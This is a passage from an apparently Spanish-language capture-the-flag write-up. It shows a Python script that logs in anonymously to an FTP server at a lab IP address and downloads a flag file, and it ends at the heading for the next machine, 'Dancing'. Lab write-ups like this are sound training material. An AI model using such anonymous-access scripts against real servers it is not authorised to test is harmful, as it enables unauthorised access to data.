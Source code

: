 **Python3**
```python
#!/usr/bin/env python3
from ftplib import FTP
import sys
import signal
from termcolor import colored

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler) # Ctrl + C

def main():
    FTP_HOST = "10.129.221.222"
    FTP_USER = "anonymous"
    FTP_PASS = ""
    file = "flag.txt"
    file_script = "script_py.txt"
    try:
        ftp = FTP(FTP_HOST)
        ftp.login(FTP_USER, FTP_PASS)
        with open(file_script, "wb") as f:
            ftp.retrbinary(f"RETR {file}", f.write)
        print(colored(f"\n[+] Archivo remoto {file} descargado como {file_script}", 'green'))
        ftp.quit()
    except Exception as e:
        print(colored(f"\n[!] {e}",'red'))

if __name__ == "__main__":
    main()
```
<hr />
<h2 id="dancing"><h2 class="titulo-principal">Dancing</h2></h2>
<div id="imgs" style="text-align: center;">